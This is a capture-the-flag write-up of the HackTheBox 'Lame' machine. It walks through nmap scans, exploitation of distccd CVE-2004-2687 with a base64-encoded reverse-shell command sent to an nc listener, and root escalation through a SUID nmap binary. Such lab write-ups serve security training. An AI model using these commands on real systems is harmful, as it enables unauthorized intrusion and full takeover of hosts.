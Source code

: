 ```yaml
---
description: Lame box from HackTheBox write up.
---
```


# Lame

## nmap scan

As usual let's start with `nmap`:

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap <MACHINE_IP> -p- --min-rate 1000 -v
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-07 17:49 EDT
Nmap scan report for <MACHINE_IP>
Host is up (0.050s latency).
Not shown: 65530 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 104.17 seconds
           Raw packets sent: 131147 (5.770MB) | Rcvd: 84 (3.680KB)
```

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap <MACHINE_IP> -p21,22,139,445,3632 -sC -sV
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-07 17:53 EDT
Nmap scan report for <MACHINE_IP>
Host is up (0.050s latency).

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.48
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m31s, deviation: 2h49m43s, median: 30s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2021-09-07T17:54:09-04:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.46 seconds
```

So we have SSH, FTP, Samba and `distccd`. That last service is used to send code to be compiled in another computer, I think we can start with it.

## Distccd

Let's check if it is vulnerable to CVE-2004-2687:

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p 3632 <MACHINE_IP> --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='id'"
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-07 18:00 EDT
Nmap scan report for <MACHINE_IP>
Host is up (0.052s latency).

PORT     STATE SERVICE
3632/tcp open  distccd
| distcc-cve2004-2687: 
|   VULNERABLE:
|   distcc Daemon Command Execution
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2004-2687
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|       Allows executing of arbitrary commands on systems running distccd 3.1 and
|       earlier. The vulnerability is the consequence of weak service configuration.
|       
|     Disclosure date: 2002-02-01
|     Extra information:
|       
|     uid=1(daemon) gid=1(daemon) groups=1(daemon)
|   
|     References:
|       https://nvd.nist.gov/vuln/detail/CVE-2004-2687
|       https://distcc.github.io/security.html
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687

Nmap done: 1 IP address (1 host up) scanned in 1.19 seconds
```

In fact it is! We have RCE, that was fast. Next step is to get a shell.

### Reverse shell

I just `base64` encoded a Python reverse shell payload and used an [implementation of the vulnerability in Python](https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855){:target="_blank"} to send it:

```bash
./CVE-2004-2687.py -t <MACHINE_IP> -p 3632 -c "echo <BASE64_REVSHELL> | base64 -d | bash"
```

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 8080
listening on [any] 8080 ...
connect to [10.10.14.48] from (UNKNOWN) [<MACHINE_IP>] 44031
sh: no job control in this shell
sh-3.2$
```

The user flag is under `/home/makis/user.txt`

## Privilege escalation

Once in the box we can start checking for escalation vectors. After some digging i found that the `nmap` binary has the SUID bit set and is owned by root:

```bash
daemon@lame:/$ find / -perm /4000 2> /dev/null
/bin/umount
/bin/fusermount
/bin/su
/bin/mount
/bin/ping
/bin/ping6
/sbin/mount.nfs
/lib/dhcp3-client/call-dhclient-script
/usr/bin/sudoedit
/usr/bin/X
/usr/bin/netkit-rsh
/usr/bin/gpasswd
/usr/bin/traceroute6.iputils
/usr/bin/sudo
/usr/bin/netkit-rlogin
/usr/bin/arping
/usr/bin/at
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/nmap
/usr/bin/chsh
/usr/bin/netkit-rcp
/usr/bin/passwd
/usr/bin/mtr
/usr/sbin/uuidd
/usr/sbin/pppd
/usr/lib/telnetlogin
/usr/lib/apache2/suexec
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/pt_chown
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
daemon@lame:/$ ls -l /usr/bin/nmap
-rwsr-xr-x 1 root root 780676 Apr  8  2008 /usr/bin/nmap
```

To abuse this, we can simply execute `nmap --interactive` and then execute a system command. That system command will be executed as `root` so we can become `root` now:

```bash
daemon@lame:/tmp$ nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !bash -p
bash-3.2# id
uid=1(daemon) gid=1(daemon) euid=0(root) groups=1(daemon)
bash-3.2# 
```

The root flag is under `/root/root.txt`.